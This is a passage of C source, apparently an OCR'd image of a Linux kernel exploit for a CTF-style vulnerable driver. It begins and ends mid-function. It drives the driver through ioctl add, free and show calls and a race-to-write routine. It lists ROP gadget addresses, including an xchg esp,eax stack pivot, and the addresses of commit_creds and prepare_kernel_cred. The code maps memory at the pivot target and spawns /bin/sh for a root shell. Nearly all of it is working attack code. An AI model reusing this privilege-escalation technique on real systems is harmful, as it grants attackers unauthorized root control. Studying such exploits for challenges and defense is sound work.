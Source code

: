 ```c
        system("/bin/sh");
    }
    printf("No root shell !!");
}

int del()
{
    return ioctl(fd,FREE,0x80);
}

int add()
{
    return ioctl(fd,ADD,0x80);
}

int show()
{
    return ioctl(fd,SHOW,0x80);
}

int race_to_write()
{
    void* addr;
    uint64_t *rsp;
    uint64_t *buf;

    buf = malloc(0x80);
    memset(buf,0,0x80);

/*
from pwn import *
vm = ELF("vmlinux")
print("".join(hex(_)+"\n" for _ in vm.search(asm("xchg esp,eax;ret",arch="amd64"))))
0xffffffff81011cb0
0xffffffff81014a6a
0xffffffff810758c8
*/

/*
commit_creds 0xffffffff8108c360
prepare_kernel_cred 0xffffffff8108c780

(vmlinux/ELF/x86_64)> search mov rdi,rax

0xffffffff819b5764: mov rdi, rax; je 0xbb576f; mov rax, rdi; pop rbx; pop rbp; ret; 
0xffffffff811b3ffa: mov rdi, rax; jne 0x3b3fca; pop rbx; ret; 
0xffffffff811b407a: mov rdi, rax; jne 0x3b404a; pop rbx; ret; 

*/
    
    int i;
    buf[0] = K(0xffffffff81011cb0);
    // *((uint64_t*)((char*)buf + 0x60)) = K(0xffffffff81011cb0); // xchgx esp,eax;ret
    
    addr = mmap3(K(0xffffffff81011cb0));
    if (addr == MAP_FAILED)
    {
        printf("mmap error");
        exit(-1);
    }

    rsp = (void*)(K(0xffffffff81011cb0)&(0xffffffff));

```